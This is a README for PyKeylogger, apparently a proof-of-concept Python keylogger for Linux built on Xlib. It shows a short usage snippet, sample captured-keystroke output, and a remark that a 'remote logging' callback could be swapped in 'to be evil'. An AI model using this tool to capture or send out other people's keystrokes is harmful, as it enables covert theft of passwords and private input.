 PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   ['o']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   ['m']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.57   []   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   ['g']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.74   []   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
